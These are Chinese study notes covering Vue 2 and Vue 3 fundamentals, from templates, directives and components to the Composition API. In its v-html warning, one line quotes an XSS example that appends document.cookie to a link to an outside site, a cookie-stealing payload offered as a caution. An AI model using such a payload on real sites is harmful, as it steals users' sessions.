









# vue2

## vue2基础

创建一个Vue实例：
- `new Vue( { 配置对象 } )`
- 配置对象中：
  - el：将Vue实例与id为root的容器绑定
  - data：存放root容器需要的数据
    - 动态：data中的数据发生变化，模板（页面）中用到该数据的地方也会自动更新

root容器中的代码被称为**Vue模板**，仍符合html规范，只不过混入了一些Vue语法。
- 插值语法 `{{ xxx }}`：双括号里必须写js表达式，例如`a`、`1+2`、`Date.now()`。`xxx`会自动读取Vue实例data中的所有属性。

注意：
- 容器和Vue实例必须是**一一对应**的
- 真实开发中只有一个Vue实例，并配合组件一起使用。

```html
<body>
    <!-- root容器中的代码被称为【Vue模板】 -->
    <div id="root">
        <h1>hello {{name}}</h1>
    </div>

    <script>
        new Vue({
            el: "#root", // el用于指定当前Vue实例为哪个容器服务，值通常为css选择器字符串
            data: { // data用于存储数据，供el指定的容器使用
                name:'abc'
            }
        })
    </script>
</body>
```

### 模板语法

1. 插值语法：
- 解析标签体的内容
- `{{ xxx }}`：xxx是js表达式，`xxx`会自动读取Vue实例data中的所有属性。

2. 指令语法：
- 用于解析标签
- `v-bind:href="xxx"`：可简写为`:href="xxx"`，xxx是js表达式，`xxx`会自动读取Vue实例data中的所有属性。

### 数据绑定

`v-bind:`：单向绑定，数据只能从data流向页面

`v-model:`：双向绑定，数据不仅能从data流向页面，还能从页面流向data
- 只能用在表单类元素（输入类元素）上。例如input、select
- `v-model:value`可以简写为`v-model`，默认收集的就是`value`

### el和data的两种写法


绑定el的两种方式：
- 创建Vue实例时就指定：`const vm = new Vue({ el: "#root" })`
- 后续指定：`vm.$mount('#root')`

data的两种写法：

- 对象式：
```js
const vm = new Vue({
    el: "#root",
    data: {
        name: '尚硅谷'
    }
})
```

- 函数式：注意只能用普通函数，不能用箭头函数，否则this不再是Vue实例，而是Window
```js
const vm = new Vue({
    el: "#root",
    data: function () {
        // this是Vue实例
        return {
            name: '尚硅谷'
        }
    }
})
```

函数式一般简写为：
```js
const vm = new Vue({
    el: "#root",
    data() {
        // this是Vue实例
        return {
            name: '尚硅谷'
        }
    }
})
```

### MVVM





MVVM：模型-视图-视图模型
- M（Model）：Vue实例中的data数据
- V（View）：模板代码
- VM（ViewModel）：Vue实例

在data中的属性，都出现在了vm身上（都是vm的属性）。

vm的属性，以及Vue原型上的所有属性，Vue模板都可以直接使用。

### 数据代理

> 数据代理：通过一个对象代理对另一个对象的属性的操作

Object.defineProperty：给对象添加属性，并控制属性是否可枚举、可修改、可删除、设置get、set方法

```js
num = 18
let person = {
    name: "abc",
}
Object.defineProperty(person, 'age', {
    value: 25,
    enumerable: true,  // 可枚举
    writable: true, // 可修改
    configurable:true, // 可删除
    // 读取person的age属性时，get被调用，返回值就是age的值
    get(){
        return num
    },
    // 修改person的age属性时，set被调用
    set(value){
        num = value
    }
})
```



Vue中的数据代理：通过vm对象来代理data对象中属性的操作

原理：
- 用Object.defineProperty将data的属性添加到vm上，并为每个属性设置getter、setter方法

### 事件绑定

- 使用`v-on:xx`来绑定事件，可简写为`@xx`
- 事件的回调放在methods对象中，最终会在vm上
- 不要使用箭头函数，否则this不是vm而是window

```js
<body>
    <div id="root">
        <h1>姓名：{{name}}</h1>
        <button @click="func1(name, $event)">点我</button>
    </div>
    <script>
        const vm = new Vue({
            el: "#root",
            data() { return {name: 'abc',}},
            methods: {
                func1(number, ev) {
                    console.log(ev, number);
                }
            }
        })
    </script>
</body>
```

事件修饰符：
- prevent：阻止默认行为
- stop：阻止事件冒泡
- once：事件只触发一次
- capture：使用事件的捕获模式
- self：只有event.target是当前操作的元素时才触发事件
- passive：事件的默认行为立即，无需等待事件回调执行完毕
  - 例如：给scroll事件绑定回调，如果没有passive，就会先执行回调，执行完后再触发事件行为（滚动）
  - 有passive的话，就会立即滚动，同时执行回调

键盘事件：

1.Vue中常用的按键别名：
```
    回车 => enter
    删除 => delete (捕获“删除”和“退格”键)
    退出 => esc
    空格 => space
    换行 => tab (特殊，必须配合keydown去使用)
    上 => up
    下 => down
    左 => left
    右 => right
```

2.Vue未提供别名的按键，可以使用按键原始的key值去绑定，但注意要转为kebab-case（短横线命名）

3.系统修饰键（用法特殊）：ctrl、alt、shift、meta
    (1).配合keyup使用：按下修饰键的同时，再按下其他键，随后释放其他键，事件才被触发。
    (2).配合keydown使用：正常触发事件。

4.也可以使用keyCode去指定具体的按键（不推荐）

5.Vue.config.keyCodes.自定义键名 = 键码，可以去定制按键别名

```js
<input type="text" placeholder="按下enter提示输入" @keyup.enter="fn">
```

### 计算属性

> 要用的属性不存在，要通过已有的属性计算得来

原理：Object.defineProperty的get和set

get函数什么时候执行：
- 初次读取时执行一次
- 依赖的数据发生改变时

优势：内部有缓存机制，与methods实现相比，效率更高，调试方便。

```js
computed: {
    full: {
        get() {
            return this.name.slice(0, 3) + '-' + this.address
        },
        set(val) {
            let str = val.split('-')
            this.name = str[0]
            this.address = str[1]
        }
    },
    // 简写：
    fullName() {
        return this.name.slice(0, 3) + '-' + this.address
    }
}
```

### 监视属性

- 当被监视的属性变化时，回调函数自动调用，进行相关操作
- 监视的属性必须存在

new Vue时传入watch配置：
```js
const vm = new Vue({
    el: "#root",
    data() {
        return {
            isHot: true
        }
    },
    watch: {
        isHot: {
            // isHot改变时调用
            handler(newValue, oldValue) {
                console.log(newValue, oldValue);
            },
            // 初始化时立即调用一次
            immediate: true,
        }
    },
})
```

也可以后续再添加：
```js
vm.$watch('isHot',
{
    handler(newValue, oldValue) {
        console.log(newValue, oldValue);
    },
    immediate: true,
});
```

配置`deep:true`实现深度监视。

不需要配置项的话，可以简写：
```js
watch: {
    isHot(newValue, oldValue) {
        console.log(newValue, oldValue);
    }
}

vm.$watch('isHot', function (newValue, oldValue) {
    console.log(newValue, oldValue);
})
```


计算属性和监视属性的区别：
- computed能完成的，watch都能完成
- watch能完成的，computed不一定能完成。例如，当需要异步时，监视属性更好，而计算属性内部无法开启异步任务

有关函数：
- 所有被Vue管理的函数，最好写成普通函数，这样this的指向才是vm
- 所有不被Vue管理的函数（定时器的回调、ajax的回调、Promise的回调）最好写成箭头函数，这样this的指向才是vm


### 样式绑定

1. class样式：`:class="xxx"` `xxx`可以是字符串、对象、数组。
- 字符串写法适用于：类名不确定，要动态获取。
- 对象写法适用于：要绑定多个样式，个数不确定，名字也不确定。
- 数组写法适用于：要绑定多个样式，个数确定，名字也确定，但不确定用不用。

1. style样式
- `:style="{fontSize: xxx}"`其中`xxx`是动态值。
- `:style="[a,b]"`其中a、b是样式对象。


```html
<div id="root">
    <!-- 绑定class样式：字符串写法，适用于样式的类名不确定，需要动态指定 -->
    <div class="basic" :class="mood" @click="fn">{{name}}</div>
    <br />
    <!-- 绑定class样式：数组写法，适用于样式的个数、类名不确定 -->
    <div class="basic" :class="classArr">{{name}}</div>
    <br />
    <!-- 绑定class样式：对象写法，适用于样式的个数、类名确定，只需动态确定用不用 -->
    <div class="basic" :class="classObj">{{name}}</div>
</div>

<script>
    const vm = new Vue({
        el: "#root",
        data: {
            name: 'abc',
            mood: "normal",
            classArr: ['sad', 'normal', 'happy'],
            classObj: { basic: false, normal: true, happy: true },
        },
    })
</script>
```

### 条件渲染

`v-show`：通过添加`display:`来显示或隐藏节点

`v-if`：如果为false会直接**删除**节点

如果元素显示与否切换频率高，推荐用`v-show`。


`template`：不影响结构，可配合`v-if`同时为多个元素添加条件。
```js
<template v-if="n==1">
    <div>11</div>
    <div>22</div>
    <div>33</div>
</template>
```

### 列表渲染

`v-for="(item, index) in xxx" :key="yyy"`：展示列表数据。可遍历数组、对象、字符串、指定次数

#### 面试题：key的作用

key是虚拟DOM节点的标识，当状态中的数据发生变化时，Vu将新旧虚拟DOM做对比，并更新虚拟DOM，规则如下：
- 旧虚拟DOM中有与新虚拟DOM中相同的key：
  - 若内容不变，复用
  - 内容变了，创建新的真实DOM
- 旧虚拟DOM中没有与新虚拟DOM中相同的key：直接创建新的真实DOM

如果用数组下标index作为索引，那么在数组头部插入删除元素时（即逆序添加/删除），会进行低效的虚拟DOM更新，如果结构中还包括类似`<input>`的元素，界面直接会出问题

开发中如何选择key：
- 唯一标识，例如id、手机号、身份证号
- 如果不会出现逆序添加删除等破坏顺序的操作，使用index作为key也是没有问题的





#### Vue监测数据的原理

手写简陋版的监测对象：
```js

        let data = {
            name: 'abc',
            age: 11
        }

        function Observer(obj) {
            // 获取obj中的属性
            const keys = Object.keys(obj)
            keys.forEach((k) => {
                Object.defineProperty(this, k, {
                    get() {
                        return obj[k]
                    },
                    set(val) {
                        obj[k] = val
                    }
                })
            })

        }
        // 创建一个对象，用于监视data中属性的变化
        const obs = new Observer(data)
        console.log(obs);

        let vm = {}
        vm._data = data = obs
        console.log(vm);

```

`Vue.set( target, propertyName/index, value )`：向响应式对象中添加一个 property，并确保这个新 property 同样是响应式的。
- target不能是一个 Vue 实例或 Vue 实例的根数据对象(data)。


Vue 会递归监视 data 中所有层次的对象属性，但对于**数组**，它无法自动检测通过索引直接修改元素或修改 length 的变化，但可以通过拦截数组的变异方法（包装过的push、shift等）来实现响应式更新。数组中的**对象元素**仍然会被深度转换为响应式。

通过包装数组更新元素的方法实现，本质就是做了两件事：
- 调用原生对应的方法对数组进行更新。
- 重新解析模板，进而更新页面。

Vue 通过getter、setter实现监视，且要在new Vue时就传入要监测的数据。
- 后续直接追加的属性，Vue默认不做响应式处理
- 如需给后添加的属性做响应式，可使用：
  - `Vue.set( target, propertyName/index, value )`：向响应式对象中添加一个 property，并确保这个新 property 同样是响应式的。
    - target不能是一个 Vue 实例或 Vue 实例的根数据对象(data)。


所以，在Vue修改数组中的某个元素一定要用如下方法：
- 使用这些API:push()、pop()、shift()、unshift()、splice()、sort()、reverse()
- Vue.set() 或 vm.$set()

```js
// 修改数组的第一项：3种写法
updateArray() {
    // this.arr.splice(0, 1, '玩')
    // Vue.set(this.arr, 0, '玩')
    this.$set(this.arr, 0, '玩')
},
```

注意：Vue.set() 和 vm.$set() 不能给vm 或 vm的根数据对象(data) 添加属性！


### 收集表单数据

几种input类型：
若：<input type="text"/>，v-model收集的是value值，用户输入作为value值。
若：<input type="radio"/>，v-model收集的是value值，且要给标签配置value值。
若：<input type="checkbox"/>
- 没有配置input的value属性，那么收集的就是checked（勾选 or 未勾选，是布尔值）
- 配置了input的value属性:
    - v-model的初始值是非数组，那么收集的就是布尔值checked（勾选true or 未勾选false）
    - v-model的初始值是数组，那么收集的的就是value组成的数组。当用户勾选某个复选框时，该复选框的 value 值会被 添加 到数组中。


备注：v-model的三个修饰符：
- lazy：失去焦点再收集数据
- number：输入字符串转为有效的数字
- trim：输入首尾空格过滤

过滤器：
定义：对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑的处理）。
语法：
1.注册过滤器：Vue.filter(name,callback) 或 new Vue{filters:{}}
2.使用过滤器：{{ xxx | 过滤器名}}  或  v-bind:属性 = "xxx | 过滤器名"
备注：
1.过滤器也可以接收额外参数、多个过滤器也可以串联
2.并没有改变原本的数据, 是产生新的对应的数据

### Vue内置指令

`v-text`指令：
- 1.作用：向其所在的节点中插入文本内容。
- 2.与插值语法的区别：v-text会**替换掉**节点中的所有内容，{{xx}}则不会。插值语法更加灵活

`v-html`指令：
- 1.作用：向指定节点中渲染包含**html结构**的内容。
- 2.与插值语法的区别：
   - (1).v-html会替换掉节点中所有的内容，{{xx}}则不会。
   - (2).v-html可以识别html结构。
- 3.注意：v-html有安全性问题
   - (1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
   - 例如：用户传入的字符串为`<a href='javascript:location.href="http://www.bilibili.com?"+document.cookie'>资源</a>`
   - (2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！        

`v-cloak`指令（没有值）：

- 1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
- 2.使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。

```html
    <style>
        [v-cloak]{
            display: none;
        }
    </style>

    <div v-html="str"></div>
```

`v-once`指令：
- 1.v-once所在节点在初次动态渲染后，就视为静态内容了。
- 2.以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。


`v-pre`指令：
- 1.跳过其所在节点的编译过程。
- 2.可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。

### 自定义指令

自定义指令总结：
一、定义语法：
(1).局部指令：`new Vue({ directives:{指令名:配置对象/回调函数} })` 
(2).全局指令：`Vue.directive(指令名,配置对象/回调函数)`

二、配置对象中常用的3个回调：
(1)`.bind`：指令与元素成功绑定时调用。
(2)`.inserted`：指令所在元素被插入页面时调用。
(3)`.update`：指令所在模板结构被重新解析时调用。

三、备注：
1.指令定义时不加v-，但使用时要加v-；
2.指令名如果是多个单词，要使用kebab-case命名方式，不要用camelCase命名。
3.指令回调函数内this指向是window

需求1：定义一个v-big指令，和v-text功能类似，但会把绑定的数值放大10倍。

在Vue配置项中添加：
```js
directives:{
    /** 
     * element：DOM元素
     * binding：绑定的值
     * big何时会被调用：指令与元素成功绑定时（bind），以及指令所在的模板被重新解析时(update)。
     */
    big(element,binding){
        element.innerText = binding.value * 10
    },
},
```

需求2：定义一个v-fbind指令，和v-bind功能类似，但可以让其所绑定的input元素默认获取焦点。

```js
directives: {
    fbind: {
        bind(el, binding) {
            el.value = binding.value
        },
        inserted(el, binding) {
            el.focus()
        },
        update(el, binding) {
            el.value = binding.value
        }
    }
},
```

### 生命周期

生命周期：
1.又名：生命周期回调函数、生命周期函数、生命周期钩子。
2.是什么：Vue在关键时刻帮我们调用的一些特殊名称的函数。
3.生命周期函数的名字不可更改，但函数的具体内容是程序员根据需求编写的。
4.生命周期函数中的this指向是 vm 或 组件实例对象。



## Vue组件化编程

传统方式：依赖关系混乱，不好维护，代码复用率低

模块：一个向外提供特定功能的js文件

组件：实现应用中局部功能代码和资源的集合（html/css/js/image...）


模块化：应用中的js都以模块来编写

组件化：应用中的功能都以多组件的方式来编写


非单文件组件：一个文件中有n个组件

单文件组件：一个文件中只有1个组件

### 非单文件组件

Vue中使用组件的三大步骤：
一、定义组件(创建组件)
二、注册组件
三、使用组件(写组件标签)

一、如何定义一个组件？

使用`Vue.extend(options)`创建，其中`options`和`new Vue(options)`时传入的那个`options`几乎一样，但也有点区别；
区别如下：
- 1.不能写el：最终所有的组件都要经过一个vm的管理，由vm中的el决定服务哪个容器。
- 2.data必须写成函数：避免组件被复用时，数据存在引用关系。
  - 如果 data 是一个对象，那么所有通过该构造器创建的实例会共享同一个 data 对象。修改一个实例的 data 属性会影响到其他实例，这显然不符合组件封装和独立性的要求
  - 而将 data 写成一个函数，每次创建实例时，Vue 会调用该函数并返回一个全新的对象。
- 备注：使用template可以配置组件结构。

二、如何注册组件？
- 1.局部注册：new Vue的时候传入components选项
- 2.全局注册：Vue.component('组件名',组件)

三、编写组件标签：`<school></school>`


几个注意点：
1.关于组件名:
- 一个单词组成：
  - 第一种写法(首字母小写)：school
  - 第二种写法(首字母大写)：School
- 多个单词组成：
  - 第一种写法(kebab-case命名)：my-school
  - 第二种写法(CamelCase命名)：MySchool (需要Vue脚手架支持)
  备注：
- (1).组件名尽可能回避HTML中已有的元素名称，例如：h2、H2都不行。
- (2).可以使用name配置项指定组件在开发者工具中呈现的名字。

2.关于组件标签:
- 第一种写法：<school></school>
- 第二种写法：<school/>
- 备注：不用使用脚手架时，<school/>会导致后续组件不能渲染。

3.一个简写方式：
`const school = Vue.extend(options)` 可简写为：`const school = options`


#### VueComponent

1.school组件本质是一个名为`VueComponent`的构造函数，是Vue.extend生成的。

2.我们只需要写`<school/>`或`<school></school>`，Vue解析时会帮我们创建`school`组件的实例对象，即Vue自动帮我们执行的：`new VueComponent(options)`。

3.特别注意：**每次调用Vue.extend，返回的都是一个全新的VueComponent。**

4.关于this指向：
(1).组件配置中：data函数、methods中的函数、watch中的函数、computed中的函数 它们的this均是【VueComponent实例对象】。
(2).new Vue(options)配置中：data函数、methods中的函数、watch中的函数、computed中的函数 它们的this均是【Vue实例对象】。

5.VueComponent的实例对象，以后简称`vc`（也可称之为：组件实例对象）。
Vue的实例对象，以后简称`vm`。

一个重要的内置关系：`VueComponent.prototype.__proto__  Vue.prototype`，让组件实例对象（vc）可以访问到 Vue原型上的属性、方法。



### 单文件组件

每个vue文件由template、script、style组成。

在main.js中创建Vue实例，注册组件。App组件是所有组件的父组件



## 脚手架

Vue CLI

```
vue create hello-world

npm run serve  // 运行main.js
```

main.js：入口文件。首先执行的就是这个文件。



`import Vue from 'vue'`默认引入的`vue.runtime.esm.js`是不带模板解析器的Vue，所以不能使用template配置项，必须要写render函数。

完整版Vue（包含模板解析器）：`import Vue from 'vue/dist/vue'`

初探render：createElement创建元素
```js
import Vue from 'vue'
import App from './App.vue'

new Vue({
    render(createElement){
        return createElement('h1', 'hello')
    }
}).$mount('#app')
```

#### vue.config.js 配置文件

1. 使用 vue inspect > output.js 可以查看到 Vue 脚手架的默认配置。
2. 使用 vue.config.js 可以对脚手架进行个性化定制，详情见：https://cli.vuejs.org/zh


### ref 属性

1. 被用来给元素或子组件注册引用信息（id 的替代者）
2. 应用在 html 标签上获取的是**真实 DOM 元素**，应用在组件标签上是**组件实例对象**（vc）
3. 使用方式：
   1. 打标识：`<h1 ref="xxx">.....</h1>` 或 `<School ref="xxx"></School>`
   2. 获取：`this.$refs.xxx`


### props 配置项

功能：组件通信-父传子：让组件接收外部传过来的数据

传递数据：`<Demo name="xxx"/>`

接收数据：
- 只接收：`props:['name'] `
- 限制类型：`props:{name:String}`
- 限制类型、限制必要性、指定默认值：
```js
props:{
	name:{
      type:String, //类型
      required:true, //必要性
      default:'老王' //默认值
	}
}
```

注意，传入数字类型的prop要加引号：
```js
<Student name="jyx" :age="18" sex="nv"></Student>
```

props 是**只读**的，Vue 底层会监测你对 props 的修改，如果进行了修改，就会发出警告。若确实需要修改，可以复制 props 的内容到 data 中一份(注意不要重名)，然后去修改 data 中的数据。

如果props和data有重名属性，props优先级更高。


### mixin(混入)

功能：可以把多个组件共用的配置提取出来，需要时引入

使用方式：

- 定义混合：
```js
{
    data(){....},
    methods:{....}
    ....
}
```

- 使用混入：
  - 全局混入：`Vue.mixin(xxx)`，所有组件都会获得
  - 局部混入：配置中添加`mixins:['xxx']	`，单个组件获得


### 插件


功能：用于增强 Vue（通过给Vue添加属性）

本质是包含 `install` 方法的一个对象，install 的第一个参数是 Vue，第二个以后的参数是插件使用者传递的数据。

定义插件：
```js
对象.install = function (Vue, options) {
    // 1. 添加全局过滤器
    Vue.filter(....)

    // 2. 添加全局指令
    Vue.directive(....)

    // 3. 配置全局混入(合)
    Vue.mixin(....)

    // 4. 添加实例方法
    Vue.prototype.$myMethod = function () {...}
    Vue.prototype.$myProperty = xxxx
}
```

使用插件：`Vue.use([plugins])`

### 组件化编码流程

1. 组件化编码流程：

(1).拆分静态组件：组件要按照功能点拆分，命名不要与 html 元素冲突。

(2).实现动态组件：考虑好数据的存放位置，数据是一个组件在用，还是一些组件在用：
- 一个组件在用：放在组件自身即可。
- 一些组件在用：放在他们共同的父组件上（`<span style="color:red">`状态提升）。

(3).实现交互：从绑定事件开始。

2. props 适用于：

- 父组件 ==> 子组件 通信（直接用props传递数据）
- 子组件 ==> 父组件 通信（父给子用props传递函数，子调用这个函数并传入数据）

3. 使用 v-model 时要切记：v-model 绑定的值不能是 props 传过来的值，因为 props 是不可以修改的！
4. props 传过来的若是对象类型的值，修改对象中的属性时 Vue 不会报错，但不推荐这样做。

### TodoList 案例

1. 组件化编码流程：

   (1).拆分静态组件：组件要按照功能点拆分，命名不要与 html 元素冲突。
   (2).实现动态组件：考虑好数据的存放位置，数据是一个组件在用，还是一些组件在用：
        1).一个组件在用：放在组件自身即可。
        2). 一些组件在用：放在他们共同的父组件上（==状态提升==）。
   (3).实现交互：从绑定事件开始。

2. props 适用于：

   (1).父组件 ==> 子组件 通信
   (2).子组件 ==> 父组件 通信（要求父先给子一个函数）

3. 使用 v-model 时要切记：**v-model 绑定的值不能是 props 传过来的值**，因为 props 是不可以修改的！props 传过来的若是对象类型的值，修改对象中的属性时 Vue 虽然不会报错，但不推荐这样做。

## webStorage 浏览器本地存储

1. 存储内容大小一般支持 5MB 左右（不同浏览器可能不一样）
2. 浏览器端通过 Window.sessionStorage 和 Window.localStorage 属性来实现本地存储机制。
3. 相关 API：
   1. `xxxxxStorage.setItem('key', 'value');`
      该方法接受一个键和值作为参数，会把键值对添加到存储中，如果键名存在，则更新其对应的值。
   2. `xxxxxStorage.getItem('person');`
      该方法接受一个键名作为参数，返回键名对应的值。
   3. `xxxxxStorage.removeItem('key');`
      该方法接受一个键名作为参数，并把该键名从存储中删除。
   4. ` xxxxxStorage.clear()`
      该方法会清空存储中的所有数据。
4. 备注：

   1. SessionStorage 存储的内容会随着浏览器窗口关闭而消失。
   2. LocalStorage 存储的内容，需要手动清除才会消失。
   3. `xxxxxStorage.getItem(xxx)`如果 xxx 对应的 value 获取不到，那么 getItem 的返回值是 null。
   4. `JSON.parse(null)`的结果依然是 null。

## 组件的自定义事件（v-on/ref）

1. 一种组件间通信的方式，适用于：`子组件 > 父组件 `
2. 使用场景：A 是父组件，B 是子组件，B 想给 A 传数据，那么就要在 A 中给 B 绑定自定义事件（事件的回调在 A 中）。
3. 绑定自定义事件：

   1. 第一种方式，使用v-on。在父组件中：`<Demo @atguigu="test"/>` 或 `<Demo v-on:atguigu="test"/>`
   2. 第二种方式，使用ref，在父组件中：

      ```js
      <Demo ref="demo"/>
      ......
      mounted(){
         this.$refs.xxx.$on('atguigu',this.test)
      }
      ```
   3. 若想让自定义事件只能触发一次，可以使用 `once`修饰符（v-on），或 `$once`方法（ref）。
4. 触发自定义事件：`this.$emit('atguigu',数据)`
5. 解绑自定义事件 `this.$off('atguigu')`
6. 组件上也可以绑定原生 DOM 事件，需要使用 `native`修饰符。
7. 注意：通过 `this.$refs.xxx.$on('atguigu',回调)`绑定自定义事件时，回调要么配置在 methods 中，要么用箭头函数，否则 this 指向会出问题！


## 全局事件总线（GlobalEventBus）

1. 一种组件间通信的方式，适用于任意组件间通信。
2. 安装全局事件总线：

   ```js
   // main.js
   new Vue({
   	......
   	beforeCreate() {
   		Vue.prototype.$bus = this //安装全局事件总线，$bus就是当前应用的vm
   	},
       ......
   })
   ```
3. 使用事件总线：

   1. 接收数据：A 组件想接收数据，则在 A 组件中给$bus 绑定自定义事件，事件的回调留在 A 组件自身。

      ```js
      methods(){
        demo(data){......}
      }
      ......
      mounted() {
        this.$bus.$on('xxxx',this.demo)
      }
      ```
   2. 提供数据：`this.$bus.$emit('xxxx',数据)`
4. 最好在 beforeDestroy 钩子中，用$off 去解绑当前组件所用到的事件。

## 消息订阅与发布（pubsub）

1. 一种组件间通信的方式，适用于任意组件间通信。
2. 使用步骤：

   1. 安装 pubsub：`npm i pubsub-js`
   2. 引入: `import pubsub from 'pubsub-js'`
   3. 接收数据：A 组件想接收数据，则在 A 组件中订阅消息，订阅的回调留在 A 组件自身。

      ```js
      methods(){
        demo(data){......}
      }
      ......
      mounted() {
        this.pid = pubsub.subscribe('xxx',this.demo) //订阅消息
      }
      ```
   4. 提供数据：`pubsub.publish('xxx',数据)`
   5. 最好在 beforeDestroy 钩子中，用 `PubSub.unsubscribe(pid)`去取消订阅。

## nextTick

语法：`this.$nextTick(回调函数)`

作用：在下一次 DOM 更新结束后执行其指定的回调。

使用场景：当改变数据后，要基于更新后的新 DOM 进行某些操作时，要在 nextTick 所指定的回调函数中执行。

# vue3

vue3组件中的模板结构可以是多根节点

## 常用的组合式(Composition)API

## 1.拉开序幕的setup

1. 理解：Vue3.0中一个新的配置项，值为一个函数。
2. setup是所有`Composition API（组合API）`“ 表演的舞台 ”`。
3. 组件中所用到的：数据、方法等等，均要配置在setup中。
4. setup函数的两种返回值：
   1. 若返回一个对象，则对象中的属性、方法, 在模板中均可以直接使用。（重点关注！）
   2. 若返回一个渲染函数：则可以自定义渲染内容（例如`() => h('h1','hello')`）。（了解）
5. 注意点：
   1. 尽量不要与Vue2.x配置混用
      - Vue2.x配置（data、methos、computed...）中``可以访问到``setup中的属性、方法。
      - 但在setup中``不能访问到``Vue2.x配置（data、methos、computed...）。
      - 如果有重名, setup优先。
   2. setup不能是一个async函数，因为返回值不再是return的对象, 而是promise, 模板看不到return对象中的属性。（后期也可以返回一个Promise实例，但需要Suspense和异步组件的配合）

## 2.ref函数

- 作用: 定义一个响应式的数据
- 语法: ``const xxx = ref(initValue)``
  - 创建一个包含响应式数据的**引用对象**（reference对象，简称ref对象）。
  - JS中操作数据： ``xxx.value``
  - 模板中读取数据: 不需要.value，直接：``<div>{{xxx}}</div>``
- 备注：
  - 接收的数据可以是：基本类型、也可以是对象类型。
  - 基本类型的数据：响应式依然是靠 ``Object.defineProperty()``的 ``get``与 ``set``完成的。
  - 对象类型的数据：内部 “ 求助 ” 了Vue3.0中的一个新函数—— ``reactive``函数。

## 3.reactive函数

- 作用: 定义一个对象类型的响应式数据（基本类型不要用它，要用 ``ref``函数）
- 语法：``const 代理对象= reactive(源对象)``，接收一个对象（或数组），返回一个**代理对象（Proxy的实例对象，简称proxy对象）**
- 读取reactive定义的数据不需要`.value`
- reactive定义的响应式数据是“深层次的”。
- 内部基于 ES6 的 Proxy 实现，通过代理对象操作源对象内部数据进行操作。

## 4.Vue3.0中的响应式原理

### vue2.x的响应式——defineProperty

- 实现原理：

  - 对象类型：通过 ``Object.defineProperty()``对属性的读取、修改进行拦截（数据劫持）。
  - 数组类型：通过重写更新数组的一系列方法来实现拦截。（对数组的变更方法进行了包裹）。

    ```js
    Object.defineProperty(data, 'count', {
        get () {}, 
        set () {}
    })
    ```
- 存在问题：

  - 新增属性、删除属性, 界面不会更新。
  - 直接通过下标修改数组, 界面不会自动更新。

### Vue3.0的响应式——Proxy-Reflect

实现原理:
- 通过Proxy（代理）:  拦截对象中任意属性的变化, 包括：属性值的读写、属性的添加、属性的删除等。
- 通过Reflect（反射）:  对源对象的属性进行操作。
- MDN文档中描述的Proxy与Reflect：
  - Proxy：https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Proxy
  - Reflect：https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Reflect

    ```js
    new Proxy(data, {
    	// 拦截读取属性值
        get (target, prop) {
        	return Reflect.get(target, prop)
        },
        // 拦截设置属性值或添加新属性
        set (target, prop, value) {
        	return Reflect.set(target, prop, value)
        },
        // 拦截删除属性
        deleteProperty (target, prop) {
        	return Reflect.deleteProperty(target, prop)
        }
    })
    
    proxy.name = 'tom'   
    ```

## 5.reactive对比ref

- 从定义数据角度对比：
  - ref用来定义：``基本类型数据``。
  - reactive用来定义：``对象（或数组）类型数据``。
  - 备注：ref也可以用来定义``对象（或数组）类型数据``, 它内部会自动通过 ``reactive``转为``代理对象``。
- 从原理角度对比：
  - ref通过 ``Object.defineProperty()``的 ``get``与 ``set``来实现响应式（数据劫持）。
  - reactive通过使用``Proxy``来实现响应式（数据劫持）, 并通过``Reflect``操作源对象内部的数据。
- 从使用角度对比：
  - ref定义的数据：操作数据需要`.value`，读取数据时模板中直接读取不需要`.value`。
  - reactive定义的数据：操作数据与读取数据：均不需要`.value`。【推荐】

## 6.setup的两个注意点

`setup(props, context)`：

- setup执行的时机

  - 在beforeCreate之前执行一次，this是undefined。
- setup的参数

  - `props`：值为对象，包含：组件外部传递过来，且组件内部用`props:[]`声明接收了的属性。
  - `context`：上下文对象
    - `attrs`: 值为对象，包含：组件外部传递过来，但没有在props配置中声明的属性。相当于 vue2中的``this.$attrs``。
    - `slots`: 收到的插槽内容, 相当于 ``this.$slots``。
    - `emit`: 分发自定义事件的函数, 相当于 ``this.$emit``。

## 7.计算属性与监视

### 1.computed函数

- 与Vue2.x中computed配置功能一致
- 写法

  ```js
  import {computed} from 'vue'
  
  setup(){
      ...
  	//计算属性——简写
      let fullName = computed(()=>{
          return person.firstName + '-' + person.lastName
      })
      //计算属性——完整
      let fullName = computed({
          get(){
              return person.firstName + '-' + person.lastName
          },
          set(value){
              const nameArr = value.split('-')
              person.firstName = nameArr[0]
              person.lastName = nameArr[1]
          }
      })
  }
  ```

### 2.watch函数

- 与Vue2.x中watch配置功能一致
- 两个小“坑”：

  - 监视reactive定义的响应式数据时：oldValue无法正确获取、强制开启了深度监视（deep配置失效）。
  - 监视reactive定义的响应式数据中某个属性时：deep配置有效。

  ```js
  //情况一：监视ref定义的响应式数据
  watch(sum,(newValue,oldValue)=>{
  	console.log('sum变化了',newValue,oldValue)
  },{immediate:true})
  
  //情况二：监视多个ref定义的响应式数据
  watch([sum,msg],(newValue,oldValue)=>{
  	console.log('sum或msg变化了',newValue,oldValue) // newValue、oldValue也是数组
  }) 
  
  /* 情况三：监视reactive定义的响应式数据
  			若watch监视的是reactive定义的响应式数据，则无法正确获得oldValue！！
  			若watch监视的是reactive定义的响应式数据，则默认开启了深度监视
  */
  watch(person,(newValue,oldValue)=>{
  	console.log('person变化了',newValue,oldValue) // newValue  oldValue
  },{immediate:true,deep:false}) //此处的deep配置不再奏效
  
  //情况四：监视reactive定义的响应式数据中的某个属性
  watch(()=>person.job,(newValue,oldValue)=>{
  	console.log('person的job变化了',newValue,oldValue)
  },{immediate:true,deep:true}) 
  
  //情况五：监视reactive定义的响应式数据中的某些属性
  watch([()=>person.job,()=>person.name],(newValue,oldValue)=>{
  	console.log('person的job变化了',newValue,oldValue)
  },{immediate:true,deep:true})
  
  //特殊情况
  watch(()=>person.job,(newValue,oldValue)=>{
      console.log('person的job变化了',newValue,oldValue)
  },{deep:true}) //此处由于监视的是reactive素定义的对象中的某个属性，所以deep配置有效
  ```

### 3.watchEffect函数

- watchEffect：不用指明监视哪个属性，监视的回调中用到哪个属性，就监视哪个。
